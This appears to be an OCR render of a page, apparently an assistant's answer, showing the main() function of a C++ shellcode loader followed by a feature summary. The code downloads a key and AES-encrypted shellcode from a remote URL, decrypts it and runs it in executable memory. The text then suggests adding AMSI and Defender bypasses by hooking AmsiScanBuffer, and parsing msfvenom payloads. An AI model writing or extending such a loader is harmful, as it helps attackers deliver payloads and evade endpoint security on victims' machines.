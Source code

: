```cpp
}

int main(int argc, char* argv[]) {
    if (argc < 4) {
        std::cerr << "Usage: " << argv[0] << " -u <url> -k <key_file> -f <shellcode_file>" << std::endl;
        return 1;
    }

    std::string base_url = argv[2];  // Base URL
    std::string key_url = base_url + argv[4];  // Key file URL
    std::string shellcode_url = base_url + argv[6];  // Shellcode file URL

    // Download key and iv
    load_key_iv(key_url);

    // Download encrypted shellcode
    std::string encrypted_shellcode;
    download_file(shellcode_url, encrypted_shellcode);

    // Decrypt the shellcode
    std::string decrypted_shellcode = aes_decrypt(encrypted_shellcode, aes_key, aes_iv);

    // Convert decrypted shellcode into unsigned char[] and execute
    unsigned char* shellcode = (unsigned char*)decrypted_shellcode.c_str();
    execute_shellcode(shellcode, decrypted_shellcode.size());

    return 0;
}
```

### Key Features of the Code:
1. **File Download with libcurl**:
   - Downloads the key file and shellcode file from the specified URLs.

2. **AES Decryption using OpenSSL**:
   - The AES key and IV are read from the downloaded key file.
   - The encrypted shellcode is decrypted using AES-256-CBC.

3. **Shellcode Execution**:
   - The decrypted shellcode is executed in memory by allocating executable memory, copying the shellcode into it, and creating a thread to execute it.

### How to Expand Further:
1. **AMSI and Defender Bypass**: You can add basic AMSI and Defender bypassing techniques by patching AMSI in memory or obfuscating parts of the shellcode and process. Common methods include:
   - Hooking AMSI’s `AmsiScanBuffer` function.
   - Using inline assembly to modify Defender detection points.

2. **Parsing `msfvenom` Output**: 
   - For reading the `msfvenom` output (`\xfc\x48\x83...` format), you can parse it as a string and convert it into an `unsigned char[]` buffer before passing it to the decryption function.
